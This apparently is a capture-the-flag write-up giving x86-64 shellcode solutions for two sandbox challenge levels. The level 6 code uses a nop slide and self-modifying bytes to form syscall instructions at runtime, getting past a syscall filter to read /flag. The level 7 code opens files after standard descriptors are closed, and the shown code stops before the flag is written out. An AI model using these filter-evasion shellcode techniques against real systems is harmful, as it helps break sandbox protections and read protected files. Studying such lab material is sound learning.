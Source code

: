 # level 6
- similar to the last challenge, syscalls are not allowed, and the first 4095 bytes of the shellcode region is write protected, we can slide down this region using `nop` and then modify/write syscall opcode during runtime.
```nasm
.intel_syntax noprefix

.global _start

_start:
    .rept 5000
    nop
    .endr
    call pwn
    .string "/flag"
    .byte 0x00
pwn:
    ; open(flag, 0)
    mov rdi, [rsp]
    mov rsi, 0
    mov rax, 2
    inc byte ptr [rip]
    .byte 0x0e, 0x05

    ; sendfile(1, rax, 0, 0x1000)
    mov rdi, 1
    mov rsi, rax
    mov rdx, 0
    mov r10, 0x1000
    mov rax, 40
    inc byte ptr [rip]
    .byte 0x0e, 0x05
```
# level 7
- all fds (stdin, stdout, stderr) are closed before executing shellcode. so we can open another file for writing the flag.
```nasm
.intel_syntax noprefix
.global _start

_start:
    call openflag
    .string "/flag"
    .byte 0x00

openflag:
    ; open(flag, 0(readonly))
    mov rdi, [rsp]
    mov rsi, 0
    mov rax, 2
    syscall
    mov r14, rax
    call openoutflag
    .string "outflag"
    .byte 0x00
openoutflag:
    ; open(flag, 1(writeonly))
    mov rdi, [rsp]
    mov rsi, 1
    mov rax, 2
    syscall
```